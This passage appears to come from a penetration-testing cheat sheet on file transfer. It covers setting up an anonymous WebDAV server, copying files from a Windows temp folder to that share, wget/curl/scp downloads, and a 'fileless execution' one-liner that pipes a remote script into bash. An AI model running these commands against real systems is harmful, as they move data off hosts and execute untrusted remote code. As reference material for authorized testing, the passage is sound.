 **WebDav server**

{% tabs %}
{% tab title="1. Server" %}
```bash
# install libraries
sudo pip install wsgidav cheroot
# start server
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
{% endtab %}

{% tab title="2. Browse" %}
<pre class="language-sh"><code class="lang-sh"><strong>dir \\&#x3C;IP>\DavWWWRoot
</strong></code></pre>
{% endtab %}

{% tab title="3. Transfer" %}
```sh
copy C:\Windows\Temp\<FILE> \\<IP>\DavWWWRoot\
```
{% endtab %}
{% endtabs %}

### Downloads

{% tabs %}
{% tab title="wget" %}
```bash
wget http://10.10.10.10/file1 -O file1
```
{% endtab %}

{% tab title="cURL" %}
```bash
curl http://10.10.10.10/file1 -o file1
```
{% endtab %}

{% tab title="scp" %}
```bash
scp user@172.16.10.10:/tmp/file1 ./file1
```
{% endtab %}
{% endtabs %}

Fileless execution.

{% tabs %}
{% tab title="cURL" %}
{% code overflow="wrap" %}
```bash
curl https://172.16.10.1/script.sh | bash
```
{% endcode %}
{% endtab %}
